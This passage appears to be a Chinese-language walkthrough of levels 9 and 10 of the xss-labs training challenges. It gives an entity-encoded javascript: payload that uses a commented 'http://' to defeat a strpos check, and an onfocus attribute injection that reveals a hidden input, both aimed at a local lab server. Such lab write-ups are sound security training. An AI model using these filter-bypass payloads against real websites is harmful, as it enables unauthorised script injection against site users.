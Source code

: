 <font style="color:rgb(51, 51, 51);">点击友情链接</font>

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474484684-3f734f04-7779-4f5c-b0cb-e939d6a48f4d.png)

 本关小结： href属性<font style="color:#fe2c24;">自动解析Unicode编码</font>

# <font style="color:rgb(51, 51, 51);">level9</font>
老样子先丢测试代码

```javascript
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474870848-95bb1bdd-1e59-4c39-8043-e9e95fa61f65.png)

看一下源码

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474882118-f78ee642-bd80-492f-bc5d-dcd878f43bb6.png)

<font style="color:rgb(51, 51, 51);"> 当false等于false的时候(就是传入的值没有http://)就会执行if，为了防止false===false，我们需要向传入的值里面添加</font><font style="color:#fe2c24;">http://并用注释符注释掉否则会执行不了无法弹窗</font><font style="color:rgb(51, 51, 51);">，让函数strpos返回一个数字，构造payload  </font>

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
```

**本关小结**<font style="color:rgb(51, 51, 51);">：</font><font style="color:#fe2c24;">插入指定内容</font><font style="color:rgb(51, 51, 51);">（本关是http://）绕过检测，再将指定内容用注释符注释掉即可   </font>

# <font style="color:rgb(51, 51, 51);">level10</font>
![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474976887-bc31c35e-901e-4459-bfe1-b05ad18dd67d.png)

进来什么也没有？？？

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728475045181-8086d768-b6c5-4521-9f45-8e826f71ff99.png)

**<font style="color:rgb(51, 51, 51);"> </font>**<font style="color:rgb(51, 51, 51);">这里可以看到，Get传参的值，只插入了h2标签里头，那下面的input标签下的东西，还隐藏掉了  </font>

**<font style="color:rgb(51, 51, 51);">输入框被隐藏了，需要添加type="text"，构造payload</font>**

```javascript
?t_sort=" onfocus=javascript:alert() type="text
```

```javascript
http://192.168.12.139/xss-labs-master/level10.php

http://192.168.12.139/xss-labs-master/level10.php?t_sort=" onfocus=javascript:alert() type="text
```

**<font style="color:rgb(51, 51, 51);">本关小结</font>**<font style="color:rgb(51, 51, 51);">：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示 </font>
